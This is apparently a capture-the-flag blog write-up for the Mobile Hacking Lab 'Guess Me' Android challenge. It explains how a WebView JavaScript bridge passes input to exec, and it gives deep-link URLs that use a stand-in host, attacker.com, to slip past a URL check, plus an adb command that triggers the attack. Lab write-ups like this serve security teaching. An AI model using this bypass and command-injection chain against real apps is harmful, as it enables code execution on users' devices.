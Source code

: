 ```yaml
---
title:  "Mobile Hacking Lab Guess Me Writeup"
date:   2024-01-22T16:35:00-0400
categories:
  - writeup
tags:
  - android
  - ctf
---
```



Hello everyone!
In this blog post , I will try to explain my solution steps for Guess Me challenge from Mobile Hacking Lab. 

## Static Analysis
When the application is opened, the user is greeted with a guessing game. When the randomly determined number is known correctly, no action is taken other than writing a congratulatory message on the screen.

Let's analyse code with jadx.
![](/assets/images_mhl_guessme/2.png)

We have onl-y 2 activities.

![](/assets/images_mhl_guessme/3.png)

During the MainActivity code analysis, it is seen that if the info button on the home page is pressed, it sends an intent for another activity (WebviewActivity), unlike other buttons.

## WebviewActivity Analysis

![](/assets/images_mhl_guessme/4.png)

For the webview created in the WebviewActivity activity, javascript code execution is first activated and then the MyJavaScriptInterface class is added to the webview object as a javascript interface with the name "AndroidBridge". This means that methods in the MyJavaScriptInterface class with @JavascriptInterface notation can be called from within the webview.
After the settings of the Webview object are made, the loadAssetIndex and handleDeepLink methods are called.

![](/assets/images_mhl_guessme/5.png)

In the loadAssetIndex method, the index.html file in the assets folder is loaded to be displayed in the webview.

![](/assets/images_mhl_guessme/6.png)

When the index.html file is examined, as mentioned, the current time is printed on the screen by calling the getTime function via the interface called AndroidBridge.

![](/assets/images_mhl_guessme/7.png)

In the handleDeepLink method, the data sent with the intent is processed and displayed in the webpage webview. It can be seen from the manifest file in the first screenshot that the WebviewActivity activity can be triggered with intent.
The URL obtained with the incoming intent is sent to the isValidDeepLink method to be checked. According to these controls,

- Url scheme: must be mhl or https.
- Url host: mobilehackinglab
- The parameter named “url” to be sent within the URL must end with the text “mobilehackinglab.com”.

After these checks, if it is a valid connection, the function returns the data in the "url" parameter. Then, by calling the loadDeepLink method with the URL received with the intent, the relevant web page is opened in the webview.

## Finding Vulnerability and Exploitation

If the methods in the AndroidBridge interface, which can be called from within the Webview, are examined closely, a problem is noticed.

![](/assets/images_mhl_guessme/8.png)

The argument sent to the getTime function, that is, the "Time" variable, is given as an argument to the exec function without any checking and the code is executed. Here, with any command sent to the getTime function, code execution can be performed on the target device with the permissions of the application. In order to do this, we need to upload our own malicious html file to the application. In order for our own file to be uploaded, the url in the intent we will send must be able to bypass the checks in the application.

```
https://mobilehackinglab?url=attacker.com
```

If a link address like this is sent with intent, the check will not be bypassed because the value in the url parameter does not end with “mobilehackinglab.com”.

```
-	https://mobilehackinglab?url=attacker.com#mobilehackinglab.com
-	https://mobilehackinglab?url=attacker.com&test=mobilehackinglab.com
-	…

```

In case of trying to bypass the control in the above ways, the control cannot be bypassed because the "url" parameter will be taken as attacker.com while parsing the url. It would be useful to analyze the source code of the "getQueryParameter" function used when getting the URL parameter.

[![](/assets/images_mhl_guessme/9.png)](https://en.wikipedia.org/wiki/Uniform_Resource_Identifier#Syntax)


[![](/assets/images_mhl_guessme/10.png)](https://cs.android.com/android/platform/superproject/main/+/main:frameworks/base/core/java/android/net/Uri.java;l=1724;bpv=0;bpt=1)

In this function, the parameters are separated into their parts with the "&" sign, and then the relevant values are obtained by separating them with the "=" sign. Before the fragmentation process, the query part of the given link address is retrieved with the getEncodedQuery method.

![](/assets/images_mhl_guessme/11.png)

According to the information given in the source code. It returns the part between the "?" and "#" signs. This situation can also be seen when the details of the code are examined.

![](/assets/images_mhl_guessme/12.png)

As seen here, the url “?” It is divided starting from the question mark and the remaining part after the question mark is returned as the query part.

To bypass the check, a link address like this can be used:

```
https://mobilehackinglab?url=attacker.com?hack=mobilehackinglab.com
```

Although it is an incorrect URI in terms of Uri syntax, it successfully bypasses the checks and allows attacker.com to be loaded into the webview. Here is the situation that causes the checks to be skipped:
- While the Uri is divided into parts, the query part will be taken from the first question mark and will be returned as "url=attacker.com?hack=mobilehackinglab.com".
- Then, when dividing the query text into parameters, the url parameter will be accepted as “attacker.com?hack=mobilehackinglab.com” since there is no “&” sign in the query.
- Since the resulting query parameter contains the text "mobilehackinglab.com" at the end, the check will be bypassed.
- Finally, the loadDeepLink function tries to load the "attacker.com?hack=mobilehackinglab.com" value in the "url" parameter and attacker.com is loaded.

Python http server code created for the attack:

![](/assets/images_mhl_guessme/13.png)

HTML page that allows us to send commands to the GetTime function:

![](/assets/images_mhl_guessme/14.png)

The adb command used to test the attack:

```
adb shell am start -n com.mobilehackinglab.guessme/.WebviewActivity -d https://mobilehackinglab?url=10.0.3.2?hack=mobilehackinglab.com
```

Result:

![](/assets/images_mhl_guessme/15.png)


Thanks for reading! See you in next writeups 👋🏻👋🏻
